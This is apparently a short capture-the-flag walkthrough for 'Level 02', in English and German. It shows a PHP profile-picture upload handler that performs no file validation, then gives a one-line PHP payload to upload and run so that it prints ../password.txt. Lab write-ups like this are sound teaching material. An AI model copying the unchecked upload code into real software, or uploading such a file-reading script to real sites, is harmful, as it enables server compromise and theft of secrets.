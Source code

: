 LEVEL 02
========

Simple file upload application. Filetypes were not checked, you can
upload anything... so let's upload a little PHP-Script to read
../password.txt.

---

In Level 2 könnt ihr in einem "sozialen Netzwerk" ein Profilbild hochladen. Das funktioniert super!

    <?php
      session_start();

      if ($_FILES["dispic"]["error"] > 0) {
        echo "<p>Error: " . $_FILES["dispic"]["error"] . "</p>";
      }
      else
      {
        $dest_dir = "uploads/";
        $dest = $dest_dir . basename($_FILES["dispic"]["name"]);
        $src = $_FILES["dispic"]["tmp_name"];
        if (move_uploaded_file($src, $dest)) {
          $_SESSION["dispic_url"] = $dest;
          chmod($dest, 0644);
          echo "<p>Successfully uploaded your display picture.</p>";
        }
      }

      $url = "https://upload.wikimedia.org/wikipedia/commons/f/f8/" .
             "Question_mark_alternate.svg";
      if (isset($_SESSION["dispic_url"])) {
        $url = $_SESSION["dispic_url"];
      }
    ?>

Die oben stehende Routine ist für den Upload eurer Bilddatei verantwortlich. Auffällig ist hier, dass es keinerlei Validierung der Datei gibt. Ihr könnt im Endeffekt jede beliebige Datei hochladen. Wir wollen dringend die Datei _./password.txt_ auslesen! Was tun? Ein winziges PHP-Script schreiben, dass die anvisierte Datei öffnet und uns im Browser ausgibt.

    <?php 
      echo trim(file_get_contents("../password.txt"));
    ?>

Danach einfach _uploads/eure_php.php_ ausführen, schon kennen wir das Passwort!